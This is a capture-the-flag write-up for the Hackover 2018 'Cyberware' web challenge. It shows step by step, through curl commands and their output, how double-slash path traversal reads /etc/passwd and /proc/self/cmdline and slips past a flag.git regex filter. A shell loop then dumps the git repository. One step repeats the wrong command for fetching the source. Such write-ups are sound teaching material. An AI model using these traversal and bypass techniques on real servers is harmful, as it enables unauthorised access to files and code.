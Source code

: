 ## Cyberware
#### challenge
```
We have some nice ASCII animals that we want to show you. As we take animal protection very seriously we have rolled out our WAF beta test of Cyberware application protector to protect the cuties.

Just carry on, this one is unbreakable.

http://cyberware.ctf.hackover.de:1337
```

### references
[original write-up](https://security.meta.stackexchange.com/questions/3077/write-ups-hackover-ctf-2018-fri-05-oct-2000-utc-sun-07-oct-1000-utc/3087#3087)

[original write-up](https://infosec.rm-it.de/2018/10/07/hackover-ctf-2018-cyberware/)

[original write-up](https://github.com/p4-team/ctf/tree/master/2018-10-06-hackover/web_cyberware)

### idea

The ASCII images are not displayed in firefox, but curl shows them:
```
$ curl http://cyberware.ctf.hackover.de:1337/cat.txt
<pre>
   ____
  (.   \
    \  |
     \ |___(\--/)
   __/    (  . . )
  "'._.    '-.O.'
       '-.  \ "|\
          '.,,/'.,,
</pre>
curl: (18) transfer closed with 33 bytes remaining to read
```
Then /etc/passwd is accessed with:
```
$ curl http://cyberware.ctf.hackover.de:1337//etc/passwd
root:x:0:0:root:/root:/bin/ash
[...]
ctf:x:1000:1000::/home/ctf:
```
The next step is getting more information about the process:
```
$ curl http://cyberware.ctf.hackover.de:1337//proc/self/cmdline -v --output -
*   Trying 207.154.227.199...
* TCP_NODELAY set
* Connected to cyberware.ctf.hackover.de (207.154.227.199) port 1337 (#0)
> GET //proc/self/cmdline HTTP/1.1
> Host: cyberware.ctf.hackover.de:1337
> User-Agent: curl/7.61.0
> Accept: */*
>
< HTTP/1.1 200 Yippie
< Server: Linux/cyber
< Date: Wed, 10 Oct 2018 20:12:46 GMT
< Content-type: text/cyber
< Content-length: 67
<
* transfer closed with 33 bytes remaining to read
* stopped the pause stream!
* Closing connection 0
curl: (18) transfer closed with 33 bytes remaining to read
/usr/bin/python3./cyberserver.py
```
The sourcecode is obtained with:
```
$ curl http://cyberware.ctf.hackover.de:1337//proc/self/cmdline -v --output -
```
The output is in [cyberserver.py](cyberserver.py).
The source tries to block directories, but especially a flag.git directory:
```
        if path.endswith('/'):
            self.send_response(403, 'You shall not list!')
            self.send_header('Content-type', 'text/cyber')
            self.end_headers()
            self.wfile.write(b"Protected by Cyberware 10.1")
            return
[...]
        if path.startswith('flag.git') or search('\\w+/flag.git', path):
            self.send_response(403, 'U NO POWER')
            self.send_header('Content-type', 'text/cyber')
            self.end_headers()
            self.wfile.write(b"Protected by Cyberware 10.1")
            return
```
Following:
```
$ curl http://cyberware.ctf.hackover.de:1337//home/ctf/flag.git/HEAD -v
[...]
< HTTP/1.1 403 U NO POWER
[...]
```
Therefore we need to bypass the flag regex ```\\w+/flag.git```. Introducing another slash does that:
```
$ curl http://cyberware.ctf.hackover.de:1337//home/ctf//flag.git/HEAD
ref: refs/heads/master
```
You can download the git files either with https://github.com/internetwache/GitTools or a simple script:
```
mkdir -p temp/.git
cd temp/.git/
mkdir -p refs/remotes/origin objects/info logs/refs/remotes/origin logs/refs/heads objects/pack/ info refs/heads refs/master
for x in HEAD objects/info/packs description config COMMIT_EDITMSG index packed-refs refs/heads/master refs/remotes/origin/HEAD refs/stash logs/HEAD logs/refs/heads/master logs/refs/remotes/origin/HEAD refs/stash logs/HEAD logs/refs/heads/master logs/refs/remotes/origin/HEAD info/refs info/exclude; do curl http://cyberware.ctf.hackover.de:1337//home/ctf//flag.git/$x -o $x ; done
```
And grabbing the packs:
```
$ cat .git/objects/info/packs
P pack-1be7d7690af62baab265b9441c4c40c8a26a8ba5.pack
$ curl http://cyberware.ctf.hackover.de:1337//home/ctf//flag.git/objects/pack/pack-1be7d7690af62baab265b9441c4c40c8a26a8ba5.pack -o objects/pack/pack-1be7d7690af62baab265b9441c4c40c8a26a8ba5.pack
```
Using the ```GitTools/Extractor/extractor.sh temp/ extract``` we obtain files and the flag.

### flag
hackover18{Cyb3rw4r3_f0r_Th3_w1N}

[more write-ups](../../)
